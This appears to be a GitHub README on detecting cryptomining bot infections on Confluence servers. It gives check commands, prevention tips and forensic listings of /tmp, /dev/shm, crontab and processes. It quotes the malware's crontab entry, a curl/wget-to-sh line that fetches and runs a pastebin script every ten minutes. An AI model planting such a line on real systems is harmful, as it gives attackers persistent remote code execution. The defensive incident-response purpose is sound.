 # Shell BotKiller

We'll post findings from an infected confluence-systems we investigated recently, to show how it looks/feel like. The most systems we took a look at were infected with mining-bots like kerberods.

With the rise of inexpensive Virtual Servers and popular services that install insecurely by default, coupled with some juicy vulnerabilities (read: RCE - Remote Code Execution), like CVE-2015-5377 and CVE-2015-1427, this year will be an interesting one for Elasticsearch. Elasticsearch provides plenty of targets for people to exploit and create server-based botnets but in fairness it is not only Elasticsearch that suffers from critical vulnerabilities there is also ShellShock, mongodb-exploits and very recently a bug that hit WebSphere, JBoss, Jenkins and OpenNMS.

## Commands for detect infections

1. Check crontab entries `ls -lrth /var/spool/cron/crontabs`
2. Check temp dir `ls -la /tmp`
3. Check shm dir `ls -la /dev/shm`
4. Check your dirs inside opt `ls -la /opt/`
5. Check zombie processes `ps -ef`

## How prevent it

1. Update your system/softwares
2. Set right permissions to your user

## Example of Infected Server

### Awkward crontab entries for a user
```shell
/var/spool/cron/crontabs # ls -lrth
total 4.0K
-rw------- 1 root netdev 285 Apr 15 15:34 tmp.Rj8JOI
-rw-r--r-- 1 root netdev   0 Apr 16 12:42 root
```

```
# cat tmp.Rj8JOI 

# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (- installed on Mon Apr 15 17:34:25 2019)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
*/10 * * * * (curl -fsSL https://pastebin.com/raw/404NoMore||wget -q -O- https://pastebin.com/raw/404NoMore)|sh
```

### Files in /tmp that look suspicious
- See below for the lok_bot
- At least you get an infection-date
```shell
# ls -la /tmp

total 1460
drwxrwxrwt 1 root root    4096 Apr 29 08:05 .
drwxr-xr-x 1 root ro      4096 May 10  2018 ..
-rw-r--r-- 1 usr1 usr1       0 Apr 27 14:17 .354da7
-rw-r--r-- 1 usr1 usr1       5 Apr 22 06:23 .XIMunix
drwxr-xr-x 2 usr1 usr1    4096 Apr 19 17:45 .dba         <-- Bot
drwxrwx--- 2 usr1 usr1    4096 Apr 27 21:42 .sysinfo     <-- Bot
-rw-r--r-- 1 usr1 usr1   20094 Apr 27 20:33 fk           <-- KillerBot
drwxr-xr-x 2 usr1 usr1    4096 Mar 13 08:41 hsperfdata_usr1
drwxr-xr-x 2 root root    4096 Oct  7  2016 hsperfdata_root
-rwx------ 1 usr1 usr1  480296 Apr 27 21:42 ib_cm
-rwx------ 1 usr1 usr1  480296 Apr 27 21:42 kworker_0:2
-rwx------ 1 usr1 usr1  473096 Apr 22 18:30 kworker_1:1
-rw-r--r-- 1 usr1 usr1       0 Apr 19 18:04 lok          <-- Bot
-rw-r--r-- 1 usr1 usr1      12 Apr 27 20:33 tmp1         <-- Bot
-rw-r--r-- 1 usr1 usr1       0 Apr 21 18:25 .changgggeerror <--Bot
drwxr-xr-x 2 usr1 usr1    4096 Apr 27 15:18 .dba         <-- Bot
-rw-r--r-- 1 usr1 usr1       0 Apr 29 06:38 .dbb         <-- Bot
-rw-r--r-- 1 usr1 usr1     290 Apr 17 06:57 04dlOCl      <-- Bot
-rw-r--r-- 1 usr1 usr1     290 Apr 21 04:50 09m4JAO      <-- Bot
-rw-r--r-- 1 usr1 usr1     160 Apr 17 07:17 0B74AiN      <-- Bot
-rw-r--r-- 1 usr1 usr1     290 Apr 24 06:28 0C3GIEc      <-- Bot
-rw-r--r-- 1 usr1 usr1     160 Apr 14 22:50 1LgBCd8      <-- Bot
-rw-r--r-- 1 usr1 usr1     160 Apr 14 21:03 jEgLnBc      <-- Bot
-rwxr-xr-x 1 usr1 usr1 1099016 Apr 29 06:38 jGcLFA1      <-- Bot
drwxr-xr-x 2 usr1 usr1    4096 Apr 19 12:47 khugepageds  <-- Bot
-rw-r--r-- 1 usr1 usr1     290 Apr 23 00:22 lIFa09m      <-- Bot
-rw-r--r-- 1 usr1 usr1     160 Apr 14 11:26 lLNCeDg      <-- Bot
-rw-r--r-- 1 usr1 usr1     290 Apr 15 00:37 lMBH5ME      <-- Bot
-rw-r--r-- 1 usr1 usr1     160 Apr 27 14:55 lalmC9B      <-- Bot
-rw-r--r-- 1 usr1 usr1     160 Apr 24 17:08 lc6hCJM      <-- Bot
-rw-r--r-- 1 usr1 usr1     160 Apr 23 03:33 lgl7kBp      <-- Bot
-rw-r--r-- 1 usr1 usr1     160 Apr 23 11:32 m3eP059      <-- Bot

--- 400 lines deleted ----
```


### Files in /dev/shm that looks suspiciuous
- See below for the bot
- At least you get an infection-date

```shell
# ls -la /dev/shm

total 8
drwxrwxrwt 2 root   root     60 Apr 18 17:53 .
drwxr-xr-x 5 root   root    340 Oct 10  2018 ..
-rw-r--r-- 1 daemon daemon 7141 Apr 18 16:33 bt1.txt
-rwxrwxrwx 1 daemon daemon 621K Mar 18 06:51 1mm6dgJ          <-- maybe?
-rw-r--r-- 1 daemon daemon    0 Apr 12 07:48 ec2a6            <-- ???
-rw-r--r-- 1 daemon daemon    0 Apr 12 07:48 de33f4f911f20761 <-- ???
-rw-r--r-- 1 daemon daemon  290 Apr 14 01:12 L2AJgih          <-- exploit 
-rw-r--r-- 1 daemon daemon  160 Apr 14 01:12 77Ink36          <-- exploit 
-rw-r--r-- 1 daemon daemon  290 Apr 14 01:15 H4m361b          <-- exploit 
-rw-r--r-- 1 daemon daemon  160 Apr 14 01:15 1Gn6il2          <-- exploit 
-rw-r--r-- 1 daemon daemon  290 Apr 14 01:29 JnImMDp          <-- exploit 
-rw-r--r-- 1 daemon daemon  160 Apr 14 01:29 8N128a8          <-- exploit 
-rw-r--r-- 1 daemon daemon  290 Apr 14 01:50 1bI0A61          <-- exploit 
-rw-r--r-- 1 daemon daemon  160 Apr 14 01:50 Jb2jHPC          <-- exploit 
-rw-r--r-- 1 daemon daemon  290 Apr 14 02:03 aEEC4K5          <-- exploit 
```

### Zombie Processes
```shell
# ps -ef

UID        PID  PPID  C STIME TTY          TIME CMD
usr1     1     0  1 Mar13 ?        12:56:36 /usr/bin/java -Djava.util.logging.config.file=/opt/atlassian/confluence/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Xms1024m -Xmx8192m -XX:MaxPermSize=512m -XX:+UseG1GC -Djava.awt.headless=true -Xloggc:/opt/atlassian/confluence/logs/gc-2019-03-13_08-41-53.log -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=5 -XX:GCLogFileSize=2M -XX:-PrintGCDetails -XX:+PrintGCTimeStamps -XX:-PrintTenuringDistribution -Djava.endorsed.dirs=/opt/atlassian/confluence/endorsed -classpath /opt/atlassian/confluence/bin/bootstrap.jar:/opt/atlassian/confluence/bin/tomcat-juli.jar -Dcatalina.base=/opt/atlassian/confluence -Dcatalina.home=/opt/atlassian/confluence -Djava.io.tmpdir=/opt/atlassian/confluence/temp org.apache.catalina.startup.Bootstrap start
usr1   336     1  0 Apr19 ?        00:00:00 [kill] <defunct>
usr1   339     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   354     1  0 Apr19 ?        00:00:00 [kill] <defunct>
usr1   361     1  0 Apr17 ?        00:00:00 [kill] <defunct>
usr1   382     1  0 Apr19 ?        00:00:00 [kill] <defunct>
usr1   403     1  0 Apr18 ?        00:00:00 [kill] <defunct>
usr1   415     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   427     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   462     1  0 Apr22 ?        00:00:00 [kill] <defunct>
usr1   508     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   516     1  0 Apr18 ?        00:00:00 [kill] <defunct>
usr1   529     1  0 Apr20 ?        00:00:00 [kill] <defunct>
usr1   539     1  0 Apr20 ?        00:00:00 [kill] <defunct>
usr1   544     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   597     1  0 Apr22 ?        00:00:00 [kill] <defunct>
usr1   599     1  0 Apr18 ?        00:00:00 [kill] <defunct>
usr1   642     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   644     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   648     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   663     1  0 Apr20 ?        00:00:00 [kill] <defunct>
usr1   688     1  0 Apr20 ?        00:00:00 [kill] <defunct>
usr1   756     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   858     1  0 Apr22 ?        00:00:00 [kill] <defunct>
usr1   903     1  0 Apr21 ?        00:00:00 [kill] <defunct>
usr1   960     1  0 Apr20 ?        00:00:00 [kill] <defunct>
usr1  1015     1  0 Apr17 ?        00:00:00 [sh] <defunct>
usr1  1072     1  0 Apr20 ?        00:00:00 [kill] <defunct>
```